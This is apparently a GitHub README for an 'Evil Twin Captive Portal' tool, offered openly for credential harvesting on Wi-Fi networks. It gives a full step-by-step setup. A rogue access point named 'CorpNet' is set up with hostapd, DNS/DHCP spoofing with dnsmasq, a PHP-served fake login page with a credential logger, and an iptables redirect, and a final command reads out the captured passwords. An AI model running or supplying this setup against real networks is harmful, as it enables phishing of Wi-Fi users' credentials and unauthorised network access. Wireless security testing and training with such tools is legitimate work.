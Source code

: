 
# ☠️ Evil Twin Captive Portal

**Evil Twin + Captive Portal** attack for realistic credential harvesting on open or enterprise Wi-Fi.

This repo sets up a rogue access point, DNS/DHCP spoofing, and a fake login page to phish Wi-Fi credentials.

## ⚙️ Requirements

- Linux (Kali, Ubuntu, etc.)
- `hostapd`, `dnsmasq`, `php`, `python3`
- Compatible Wi-Fi card in AP mode

---

## 🗂️ Directory Structure

```
Captive_Portal/

├── captive_portal.zip
    ├── index.html           ← Fake login portal (responsive)
    ├── submit.php           ← Credential logger
├── hostapd.conf             ← Rogue AP config
├── dnsmasq.conf             ← DHCP + DNS Spoof config
├── creds.txt                ← Created at runtime
```

---

## 🚀 Step-by-Step Setup

### 1. Prepare the environment

```bash
sudo apt update
sudo apt install hostapd dnsmasq php
sudo ip link set wlan0 down
sudo ip addr flush dev wlan0
```

> Replace `wlan0` with your real AP-capable wireless interface.

---

### 2. Launch the Rogue AP

```bash
sudo hostapd configs/hostapd.conf
```

SSID: `CorpNet`

---

### 3. Start DHCP and DNS spoofing

```bash
sudo dnsmasq -C configs/dnsmasq.conf
```

---

### 4. Run the captive portal web server

```bash
cd captive_portal/
sudo php -S 0.0.0.0:80
```

---

### 5. Enable IP forwarding and redirect HTTP traffic

```bash
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 80
```

---

## 📲 Test It

- Connect a mobile phone or test device to `CorpNet`
- Try to open any website
- You'll be redirected to the fake login portal
- Enter fake credentials to test the logger

---

## 🔐 View Captured Credentials

```bash
cat creds.txt
```

---

## 📸 Screenshot (optional)

Add a screenshot of the login portal here.

---
